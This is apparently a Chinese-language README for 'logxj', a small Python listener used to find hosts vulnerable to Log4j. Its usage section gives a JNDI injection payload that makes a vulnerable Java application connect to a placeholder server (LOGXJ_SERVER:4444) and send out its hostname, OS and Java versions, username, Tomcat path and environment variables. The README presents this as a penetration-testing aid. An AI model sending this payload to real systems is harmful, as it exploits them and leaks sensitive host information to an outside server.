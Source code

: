 ## 简介

- 用于探测Log4j漏洞, 将它POC的威力最大化, POC验证成功后会立即收到目前机器的系统主机名、时间、版本号、用户名、环境变量以及Log4j路径、java版本号、中间件信息等信息.

## 灵感来源

- 由于不能第一时间立刻知道某应用系统整个组件调用链、数据传输链、系统调用链中是否存在Log4j漏洞，因此经常需要黑盒测试来fuzzing。可以利用存在漏洞的Log4j组件会向攻击者指定的dns服务端发起域名解析请求的特性判断漏洞的存在，但是内网不一定存在dns服务器，即使存在也不一定配置了dns服务器，即使配置了但是通过dnslog这类平台也无法知道是内网中的哪台机器存在漏洞，即使知道了也不确定是那台机器上的哪个web应用存在漏洞，用的是哪个版本的java环境以及哪个中间件。
- 根据自己以上种种痛点写了这个小工具，提高挖洞效率，顺便开源出来。

## 作用

- 监听端口, 等待猎物，被动式发现存在Log4j漏洞的机器.
- 最大化了POC的威力: 可以获取目前机器的系统时间、主机名、Log4j路径、系统版本号、java版本号、系统用户名、中间件信息（含物理路径）、环境变量等敏感信息.
- 功能超越了dnslog和ncat.
- 时刻监听同一端口, 可不限制地接收多个目标传输过来的漏洞信息.
- 收到漏洞信息后立即断开, 避免占用目标的程序线程和网络连接.
- 记录历史, 保存漏洞信息.

## 优点

- 代码开源, 安全可控.
- 不依赖第三方库.
- 跨平台.
- 解决了内网环境没有dns服务器、不通dnslog等问题.
- 解决了内网环境无法下载ncat的问题.
- 解决了ncat命令过于冗余的问题.
- 解决了ncat监听模式下需要频繁ctrl+c才能终止OOB连接的问题.
- 兼容Python2和Python3.
- 解决了fuzzing工程师不清楚fuzzing成功了哪台目标机器的问题.
- 解决了fuzzing工程师不清楚fuzzing成功了目标机器上的哪个web应用的问题.

## 用法

1. 找一台服务器作为logxj服务端, 假设ip是LOGXJ_SERVER, 开启TCP监听服务, 监听4444端口, 则命令如下:
```
python logxj.py
```

2. 安全人员将下述```LOGXJ POC```发送给使用了log4j的目标(java应用): 
```shell
${jndi:ldap://LOGXJ_SERVER:4444/\nFound Log4j vuln!\nDate\t:${date:yyyy-MM-dd HH:mm:ss}\nHostname:${hostName}\nConf dir:${log4j:configLocation:-}\nOs ver\t:${java:os}\nJava ver:${java:version}\nUser\t:${env:USER:-}${env:USERNAME:-}\nIsTomcat:${env:CATALINA_BASE:-False}\nPATH\t:${env:PATH:-}\n\nEnd}
```

3. 此时观察logxj服务端的控制台:
- 若收到请求, 则说明目标存在log4j漏洞.
- 若无, 则说明可能暂无风险.
